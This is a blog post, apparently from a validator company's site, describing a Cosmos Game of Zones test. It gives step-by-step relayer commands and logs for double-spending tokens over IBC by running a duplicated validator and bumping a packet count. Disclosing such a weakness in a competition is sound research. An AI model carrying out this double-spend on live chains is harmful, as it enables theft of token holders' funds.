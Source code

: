     ---
title: "Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign"
description: "For Game of Zones Phase 3 we show how malicious validators can double spend via IBC"
date: 2020-06-05
thumbnail: 'https://i.imgur.com/A5bq7Fh.png'
heroImage: 'https://i.imgur.com/A5bq7Fh.png'
layout: Post
category:
  - cosmos
authors:
  - vshvsh
company:
 - p2p

---
# Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign

We'll show how malicious validators (or validator keys thieves) can double-spend via IBC transfers using vanilla Tendermint, cosmos-sdk and relayer software.

For an experiment we have two chains: `p2p-org-3` and `responsible-3`. On p2p-org-3 there are 1000, no more and no less, of very valuable tokens with `scarce` denom. Using our trick we can make `responsible-3` accept a total sum of `2000scarce` via a channel.

## Double spend via a double sign step by step

To double spend we: 

1. Open a channel from p2p-org-3 to responsible-3
2. Stop a single validator of p2p-org-3, replicated it in two copies (let's call them `p2p-org-3.1` and `p2p-org-3.2`, though they still have an original chain-id of `p2p-org-3`) and start again in two different exemplars.

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,996000rsp,10transfer/hvigvvmjhcqwerty/ptp
```

3. Send 1000 scarce from `p2p-org-3.1`to `responsible-3`.
```
p2p-org-3.1$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:36:45.775] ✔ [p2p-org-3]@{68672} - msg(0:transfer) hash(13628DFA68099121C323DB7C2369489E1AFB71C2737B3D92B1BACAF5A9CFBB01)
I[2020-06-04|23:36:56.725] ✔ [responsible-3]@{68908} - msg(0:update_client,1:ics04/opaque) hash(50F3730A339AE60A1FDB4FADF484EA8FDC870E9E46C8362BEE328D7D324FDDE8)
p2p-org-3.1$ rly q bal p2p-org-3
99999999500ptp
p2p-org-3.1$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```

4. Switch to `p2p-org-3.2`'s terminal - there we still have `1000scarce`

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```


5. Send a bogus transfer (`100ptp`) from `p2p-org-3.2` to `responsible-3` - it fails on `responsible-3` but we bump `p2p-org-3.2`'s packet count by one to be able to send further transfers succesfully.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 100ptp true $(rly ch addr responsible-3)
I[2020-06-04|23:39:07.369] ✔ [p2p-org-3]@{68700} - msg(0:transfer) hash(EB8CAE3CDE96FF9073B54B5E6F70C43B83DA13A30E06D833AA107CEB94EE6279)
I[2020-06-04|23:39:14.274] ✘ [responsible-3]@{0} - msg(0:update_client,1:ics04/opaque) err(client:15:couldn't verify counterparty packet commitment: key mismatch on operation #0: expected commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/3 but got commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/2: packet commitment verification failed)
```

6. Succesfully send 1000 scarce from `p2p-org-3.2`to `responsible-3`.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:40:02.589] ✔ [p2p-org-3]@{68711} - msg(0:transfer) hash(83DFA4FB75D22220ECD94F134D8A8AE5BC0D0075D2DA6021B8DA6C4688E28787)
I[2020-06-04|23:40:12.237] ✔ [responsible-3]@{68947} - msg(0:update_client,1:ics04/opaque) hash(DD11048F41B6D0955EAC84D311DEF5DAD9A3F446398A59293C82A62D84F6B506)
p2p-org-3.2$ rly q bal p2p-org-3
99999998900ptp
gaia@ibc3-p2p-validator-2:/home/deploy$ rly q bal responsible-3
100000000000root,995000rsp,10transfer/hvigvvmjhcqwerty/ptp,2000transfer/hvigvvmjhcqwerty/scarce
```

We think that if there's ever a real attack with stolen keys or malicious validators involved, it'll be carried out with a combination of running a fork + using modified software that can issue arbitrary IBC packets (like our own RootChain).

-----
*The best way to support our contribution is to [stake ATOM with P2P Validador](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post).*

---

[P2P Validator](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post) is a world-leading non-custodial staking provider securing more than $40 million by over 1000 delegators/nominators across 15+ top-notch networks. We've been validating in Cosmos Hub since the first day of mainnet. P2P Validator provides comprehensive due-diligence and invested its own funds in ATOM in 2017 intending to support Cosmos network in the long term.

**Web:**[ https://p2p.org](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Stake ATOM with us:** [p2p.org/cosmos](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Twitter:**[ @p2pvalidator](https://twitter.com/p2pvalidator)

**Telegram:** [https://t.me/P2Pstaking](https://t.me/P2Pstaking)

